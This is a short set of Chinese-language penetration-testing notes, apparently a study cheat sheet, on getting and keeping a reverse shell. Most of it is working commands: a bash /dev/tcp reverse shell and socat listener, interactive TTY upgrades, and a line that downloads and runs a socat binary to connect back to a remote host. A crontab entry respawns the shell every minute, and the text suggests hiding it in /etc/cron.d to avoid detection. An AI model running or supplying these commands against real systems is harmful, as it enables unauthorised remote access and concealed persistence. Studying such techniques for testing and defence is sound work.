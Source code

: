 ## reverse shell

[reverse shell cheatsheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

開後門最直覺的作法就是開一個 shell 在受害者機器的某個 port 讓我們可以連進去，但是這樣可能會被防火牆擋住

所以反過來，在受害者機器上開一個 shell 連回我們的機器

!!! tip "reverse shell"
    ```bash
    # target machine
    bash -i >& /dev/tcp/192.168.100.100/9999 0>&1
    ```

    ```bash
    # hacker machine ( 192.168.100.100 )
    socat TCP-LISTEN:9999 -
    ```

??? failure "cannot create /dev/tcp/..."
    `sh` not support this feature, use `bash` instead
    ```bash
    # run the whole command inside bash
    bash -c "bash -i >& /dev/tcp/192.168.100.100/9999 0>&1"
    ```

## better reverse shell

參考這一篇 [Upgrading simple shells to fully interactive TTYs](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)

!!! tip "python psuedo terminal"
    ```bash
    python -c 'import pty; pty.spawn("/bin/bash")'
    ```

!!! tip "socat"
    ```bash
    # target machine
    socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.100.100:9999
    ```

    ```bash
    # hacker machine ( 192.168.100.100 )
    socat file:`tty`,raw,echo=0 tcp-listen:9999
    ```

    ??? info "no socat install"
        如果受害者機器沒有安裝 socat 可以直接用 [socat standalone binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat)
        ```bash
        # target machine
        wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444  
        ```

## crontab

[crontab cheatsheet](https://devhints.io/cron)

拿到 shell 之後，可以把後門塞到 crontab 讓他每一段時間就跑一次後門

```bash
# reverse shell every minute
echo '*/1 * * * * bash -c "bash -i &> /dev/tcp/192.168.100.100/9999 0>&1"' | crontab
```

可以用 `crontab -l` 看目前使用者的所有排程

如果有 root 權限也可以考慮塞到 `/etc/cron.d`, `/etc/cron.hourly`, ...，這樣 `crontab -l` 就看不到了

[^1]:
	https://unix.stackexchange.com/questions/417323/what-is-the-difference-between-cron-d-as-in-etc-cron-d-and-crontab
[^2]:
	https://ubuntuforums.org/showthread.php?t=1656623
